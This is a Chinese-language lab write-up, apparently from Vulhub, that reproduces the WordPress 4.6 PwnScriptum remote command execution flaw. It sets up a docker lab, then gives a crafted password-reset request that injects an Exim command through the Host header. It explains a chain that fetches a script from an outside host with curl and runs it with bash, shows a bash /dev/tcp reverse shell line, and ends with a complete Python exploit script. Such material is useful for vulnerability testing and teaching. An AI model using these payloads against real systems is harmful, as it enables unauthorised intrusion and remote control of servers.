 # Wordpress 4.6 任意命令执行漏洞 PwnScriptum

## 漏洞描述

参考：
- https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 环境搭建

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问`http://your-ip:8080/wp-admin/install.php`打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 漏洞复现

发送如下数据包，可见`/tmp/awesome_poc`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

![image-20220302225431160](images/202203022254237.png)

![image-20220302225419095](images/202203022254142.png)

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

将上述过程写成[exp脚本](https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

> example.com/shell.sh的内容为：
>
> ```
> bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
> ```

执行即可获得shell：

```
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
```

监听9999端口，接收反弹shell：

![image-20220302225928420](images/202203022259514.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command


session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```


